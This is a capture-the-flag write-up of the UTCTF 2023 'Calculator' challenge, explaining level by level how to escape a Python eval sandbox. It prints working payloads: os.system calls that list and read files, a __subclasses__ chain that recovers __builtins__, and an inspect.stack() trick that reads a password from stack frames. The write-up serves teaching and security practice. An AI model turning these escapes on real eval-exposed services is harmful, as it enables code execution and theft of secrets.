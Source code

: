 ```yaml
---
layout: post
title: Calculator - UTCTF 2023
categories: writeups
tags: utctf web-exploitation pyjail
description: Writeups for challenges I solved at UTCTF 2023.
image:
  path: /assets/writeups/utctf-2023/banner.png
  alt: UTCTF 2023 Banner
---
```


This past weekend I briefly took a look at a couple challenges from UTCTF 2023. There were a few interesting challenges and I wanted to writeup my solve of one of them. My team, Psi Beta Rho, has been taking a look at *pyjail* challenges recently and I was excited that I was able to solve one!

## Prompt

<img src="{{ "assets/writeups/utctf-2023/prompt.png" | relative_url }}" alt="Calculator's challenge prompt" width="70%"/>

Visiting the challenge page, we are presented with a simple interface with the title "A Smart Number Guessing Game" where we have to guess the correct number from each level to get a password to reach the next level. After trying a few attempted inputs, the resulting number is truly random and we have no way of guessing the correct number. After attempting an input of `1+1`, I was able to discern that this was potentially a *pyjail* challenge.

### Level 0

Beginning with the first level, since I discerned that this was a *pyjail* challenge, I attempted to achieve RCE by inputting a common payload, `__import__('os').system('ls')`. This resulted in the following output:

```python
> __import__('os').system('ls')
password.txt
problem.py
Result: 0.  The correct answer was 3935931108.
```

The above is a common *pyjail* one-liner that utilizes Python's dunder or magic functions to call functions. The above code is equivalent to the following Python code:

```python
import os
os.system('ls')
```

Now that we know that we can execute arbitrary Python code, we can attempt to do further reconnaissance on the system. I attempted to read the contents of the `problem.py` file to see what the code was doing:

```python
> __import__('os').system('cat problem.py')
import random
password = open("password.txt").read()
solution = random.getrandbits(32)

answer = input()
result = eval(answer)

if result == solution:
    print(f"{result}, correct!  The password is '{password}'.")
else:
    print(f"Result: {result}.  The correct answer was {solution}.")
Result: 0.  The correct answer was 2570371923.
```

In the above leaked source code, we see the core vulnerability of the user's input being directly passed into an `eval` allowing the execution of arbitrary code. We can then grab the first password by reading the contents of the `password.txt` file. Submitting this password, we can the progress to the next level.

```python
> __import__('os').system('cat password.txt')
PuXqj7n4WNZzStnWbtPvResult: 0.  The correct answer was 2105213148.
```
The following is an additional solution to leak the password.

```python
> password
PuXqj7n4WNZzStnWbtPvResult: 0.  The correct answer was 2105213148.
```

### Level 1

Trying the same payload as before, we get the following output:

```python
> __import__('os').system('cat problem.py')
import random
password = open("password.txt").read()
solution = random.getrandbits(32)

answer = input()
# No locals allowed!
result = eval(answer, {"open": None})

if result == solution:
    print(f"{result}, correct!  The password is '{password}'.")
else:
    print(f"Result: {result}.  The correct answer was {solution}.")
Result: 0.  The correct answer was 2758269906.
```

We notice that `eval` has been restricted so that the `open` function can no longer be used. The solution to the first level still worked so we can still read the contents of the `password.txt` file and move on to the next level.

```python
> __import__('os').system('cat password.txt')
Krdi9yQuY8mHoteZDCF5Result: 0.  The correct answer was 4248372865.
```

### Level 2

Trying the same payload as before, we get the following output:

```python
> __import__('os').system('cat problem.py')
import random, os
password = open("password.txt").read()
os.remove("password.txt") # No more reading the file!

solution = random.getrandbits(32)

answer = input()
result = eval(answer, {})

if result == solution:
    print(f"{result}, correct!  The password is '{password}'.")
else:
    print(f"Result: {result}.  The correct answer was {solution}.")
Result: 0.  The correct answer was 1887084712.
```

We notice that there are no longer any restrictions on `eval` like the previous level. However, the `password.txt` file is deleted before we can read it! I ran through a couple of potential ideas to try to recover the password. One idea I potentially had was to look for looking for dangling file descriptors since the `open` function was called before the `close` function was called on the file descriptor. Another idea was that the terminal history might have the password in it. Checking the `/proc/self` directory in `/proc/self/fd` and `/proc/self/cmdline` revealed that the file descriptors were properly closed and the terminal history was not stored. I then realized that the `password` variable was still in scope and could be accessed. After these attempts, I finally came up with the following payload.

```python
> __import__('__main__').password
Result: E46Dnqb5enAMgGArbruu.  The correct answer was 877245485.
```

The `__main__` dunder is the reserved name for the main module which the program is currently running. Importing this module allows us to access the `password` variable in the main module's scope because Python allows access to variables in the global scope of a module. After accessing this global, we are able to submit this password and move on to the next level. 

After talking with some other competitors and the organizers after the CTF was over, I learned that this was actually an unintended solution. The intended solution was to take advantage of the `inspect` module where the `stack` function can be used to access the globals of the calling frame. More explanation will be included in the next part of this writeup.

### Level 3

Starting the level with the same set up payload as before, we get the following error.

```python
> __import__('os').system('cat problem.py')
Traceback (most recent call last):
  File "problem.py", line 9, in <module>
    result = eval(answer, {"__builtins__": {}})
  File "<string>", line 1, in <module>
NameError: name '__import__' is not defined
```

The namespace of the `eval` is now more restrictive to set `__builtins__` to `{}`. Many essential functions such as `__import__` are a part of `__builtins__` so we can no longer use the same payload as before. Luckily, this was something that my team had talked about recently (shoutout to Jason An for sharing this idea at PBR practice)! The goal of this level is to recover `__builtins` so that we can use the same payload as before. The following is the payload that I used to recover the final password!

```python
> ().__class__.__base__.__subclasses__()[-25].__init__.__globals__['__builtins__']['__import__']('__main__').password
Result: 5F4p7aLgQ5Nfn5YM8s68.  The correct answer was 425718691.
```

The first part of the payload, `().__class__.__base__.__subclasses__()`, takes advantage of all of Python's types being objects. `().__class__` is a tuple which returns `<class 'tuple'>`. The corresponding base class is `<class 'object'>` which is the base class of all Python objects. The `__subclasses__` function returns a list of all the subclasses of the object parent object. For this reason, we are able to recover the list of all the subclasses of the `object` class which contains all modules. A key thing to understand about `cpython`, the main interpreter for Python is that a number of its modules are written in Python, but some of its modules are written in C. Only the modules written in Python have `__globals__` defined on them. For this reason, we need to find a module that is written in Python. Iterating backwards, I worked from index -1 till I found a module at index -25 where `__globals__` was defined. From there, we are able to recover `__builtins__` from the `__globals__` dictionary and we are then able to recover the `__import__` function from the `__builtins__` dictionary. We can then use the same payload as before to recover the password. Inputting the final password, we get the flag!

<img src="{{ "assets/writeups/utctf-2023/solve.png" | relative_url }}" alt="Calculator's solve" width="70%"/>

Speaking with the challenge author after the CTF, I learned that the intended solution was to use the `inspect` module. The `stack` function in the `inspect` module returns a list of frame records for the current call stack. The frame records contain the global variables of the calling frame. The following is the intended solution.

```python
(lambda b=((lambda n:[c for c in ().__class__.__bases__[0].__subclasses__() if c.__name__==n][0])("catch_warnings")()._module.__builtins__):
    b["eval"]("""[frame.frame.f_locals.get("password") for frame in __import__("inspect").stack()]""", {"__builtins__": b})
)()
```

`catch_warnings` is an alternate path to recover `__builtins__`. The main idea of the solution is to call the `stack` function from the `inspect` module. `cpython`'s call stack stores the locals of each frame on the stack. The above script grabs the stack and then traverses every frame on the stack to access locals to get the `password` variable.
